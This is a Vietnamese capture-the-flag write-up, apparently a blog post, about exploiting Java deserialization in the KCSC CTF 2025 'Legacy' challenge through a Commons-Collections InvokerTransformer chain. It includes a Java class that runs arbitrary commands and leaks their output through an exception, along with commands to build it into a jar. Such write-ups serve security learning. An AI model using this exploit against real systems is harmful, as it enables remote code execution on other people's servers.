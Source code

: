```yaml
---
layout: post
title:  "KCSC CTF 2025"
date:   2025-09-05 10:00:00 +0700
tag: Writeup, KCSC2025
categories: jekyll update
---
```


# Legacy 

Ban đầu bài này chỉ cho mình một source code viết bằng java. 

Có class Controller.java là có các endpoint của ứng dụng. Mà quan trọng mình thấy nó có dòng 22 là `readObject().toString()` cho nên đây có thể là một bài java deserialize. 

![image](https://hackmd.io/_uploads/rJsXfY7bll.png)

Quan sát tiếp thì thấy có dùng thư viện `Commons-Collections-3.2.1` và dùng `java-17`

Bài này lấy ý tưởng như một CVE sau: [link](https://cn-sec.com/archives/711453.html)

Ở JDK17 này thì không thể dùng sink `TemplateImpl` nên ta exploit thông qua sink `InvokerTransformer + ChainedTransformer`, như trong Commons-Collections5

Với ý tưởng là lấy output ta sẽ viết malicious jar thực thi payload và quăng output ra ngoài như sau: 

```Java=
import java.io.BufferedReader;
import java.io.InputStreamReader;
public class RunCheckConfig {
    public RunCheckConfig(String  args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        Exception e=new Exception(result);
        throw e;
        }
    }
```

Ta sẽ compile file lại, rồi build lại thành file jar 
```bash
javac RunCheckConfig.java
jar -cvf RunCheckConfig.jar RunCheckConfig.class
```
Do trong bài đã gọi tới `toString()` nên không cần dùng `BadAttributeValueExpException`

